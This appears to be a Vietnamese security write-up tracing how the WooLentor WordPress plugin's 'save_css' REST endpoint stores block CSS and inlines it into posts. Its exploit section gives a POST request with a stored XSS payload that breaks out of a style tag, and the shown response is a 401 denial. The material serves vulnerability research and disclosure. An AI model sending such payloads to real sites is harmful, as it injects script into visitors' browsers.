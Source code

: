 Để biết **namespace** này được khai báo ở đâu, ta tiếp tục tìm trong mã nguồn với từ khóa `'woolentor/v1'`:

![Name Space](name_space.png "Name Space")

Có nhiều kết quả, nhưng vì ta đang phân tích tính năng **REST API**, nên tập trung vào file **Api.php**.

`register_routes( $namespace )` thuộc class `Manage_Styles` yêu cầu tham số `$namespace` nên có thể `woolentor/v1` được truyền ở đây thông qua thể hiện của class gọi đến hàm. ta tìm với từ khóa `Manage_Styles` trong file **Api.php** để biết nó được gọi như vậy không.

![Call Api](callapi.png "Call Api")

`namespace` chính xác được gọi và truyền như vậy.

👉 Như vậy, khi gửi **POST** request đến endpoint `http://localhost/wp-json/woolentor/v1/save_css`, callback `save_block_css` được gọi để thêm/sửa block CSS trong file và database.
Khi truy cập vào post có `post_id` liên quan đến block CSS được lưu, `generate_inline_css` sẽ lấy nội block CSS và inline CSS trong thẻ `<style type="text/css"></style>` của post.

---

## Exploit

### Detect XSS

Sử dụng user có role **contributor** tạo 1 post bất kì, ghi nhớ id của post đó.

Gửi **POST** request đến endpoint `http://localhost/wp-json/woolentor/v1/save_css` với XSS payload

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Response**

```json
{
    "code":"rest_forbidden",
    "message":"Sorry, you are not allowed to do that.",
    "data":{
        "status":401
    }
}
```
